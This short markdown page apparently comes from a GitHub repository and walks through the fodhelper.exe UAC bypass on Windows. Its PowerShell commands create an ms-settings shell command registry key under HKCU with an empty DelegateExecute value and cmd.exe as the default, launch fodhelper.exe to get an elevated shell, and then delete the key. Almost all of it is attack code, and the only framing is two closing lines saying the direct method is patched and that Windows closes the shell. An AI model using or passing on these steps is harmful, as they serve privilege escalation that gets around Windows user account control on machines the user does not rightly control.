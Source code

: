 ### Create Registry Structure
```Powershell
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force

New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force

Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name “(default)” -Value “C:\Windows\System32\cmd.exe” -Force
```

### Start fodhelper.exe
```Powershell
Start-Process "C:\Windows\System32\fodhelper.exe"
```

### Cleanup
```Powershell
Start-Sleep 3

Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
```

- This direct method of UAC bypass has been patched.
- When trying to set the value of the registry entry to "cmd.exe", windows will automatically close the shell.